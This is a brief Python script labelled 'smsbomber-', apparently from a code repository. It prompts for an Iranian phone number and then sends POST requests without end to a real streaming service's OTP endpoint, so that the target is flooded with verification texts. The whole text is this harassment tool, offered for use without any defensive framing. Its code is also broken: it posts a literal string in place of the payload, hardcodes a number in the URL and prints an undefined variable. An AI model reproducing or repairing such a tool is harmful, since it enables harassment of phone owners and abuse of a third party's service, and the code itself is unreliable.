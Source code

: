 # smsbomber-
import requests
import os
phone= input("how to nember:+98:")
urlsend="https://api-v2.filmnet.ir/access-token/users/09390418932/otp"
mydata= {"cellphone":"+98"+phone}
print(mydata)
while True:
	requests.post(urlsend,data="mydata")
print(send)
